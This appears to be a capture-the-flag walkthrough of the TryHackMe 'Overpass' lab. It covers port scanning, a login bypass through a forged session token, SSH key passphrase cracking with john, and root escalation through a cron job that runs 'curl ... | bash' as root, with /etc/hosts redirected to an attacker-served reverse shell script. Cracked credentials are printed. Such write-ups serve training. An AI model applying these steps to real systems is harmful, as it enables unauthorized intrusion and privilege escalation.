 ```yaml
---
title: Walkthrough - Overpass
published: true
---
```


What happens when some broke CompSci students make a password manager?

[https://tryhackme.com/room/overpass](https://tryhackme.com/room/overpass)

* * *

## Enumerate

nmap -p- -T4 10.10.198.148 -vvv



* * * 

## Exploit

- Checking the /admin page discovered using dirb we discover inspecting elements and checking login.js that we can set sessiontoken to gain access to this ssh key

![0xskar](/assets/overpass01.png)

- now that we have a user "James" and sshkey we can login to ssh
- save the rsa key and ssh2john and feed to john

```shell
┌──(0xskar㉿cocokali)-[~/Documents/TryHackMe/overpass]
└─$ john james.john                                                                       
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
james13          (james.rsa)     
1g 0:00:00:00 DONE 1/3 (2022-07-14 13:13) 20.00g/s 103660p/s 103660c/s 103660C/s james.rsarsa13..rsajames.rsa13
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

- ssh in
- cat user and to-do.txt to find hints
- get system password from ov

```shell
james@overpass-prod:~$ /usr/bin/overpass
Welcome to Overpass
Options:
1 Retrieve Password For Service
2 Set or Update Password For Service
3 Delete Password For Service
4 Retrieve All Passwords
5 Exit
Choose an option: 4
System   saydrawnlyingpicture
```

```shell
james@overpass-prod:~$ cat todo.txt 
To Do:
> Update Overpass' Encryption, Muirland has been complaining that it's not strong enough
> Write down my password somewhere on a sticky note so that I don't forget it.
  Wait, we make a password manager. Why don't I just use that?
> Test Overpass for macOS, it builds fine but I'm not sure it actually works
> Ask Paradox how he got the automated build script working and where the builds go.
  They're not updating on the website
```

- check /etc/crontab

```shell
james@overpass-prod:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user command
17 * * * * root    cd / && run-parts --report /etc/cron.hourly
25 6 * * * root test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6 * * 7 root test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6 1 * * root test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
# Update builds from latest code
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```

- cronjob curls a script and running it as root we can probably take advantage of this

```shell
james@overpass-prod:~$ cat /etc/hosts
127.0.0.1 localhost
127.0.1.1 overpass-prod
127.0.0.1 overpass.thm
# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

- edit with vim and create /downloads/src/buildscript.sh with reverse shell on attacker

![0xskar](/assets/overpass02.png)

* * * 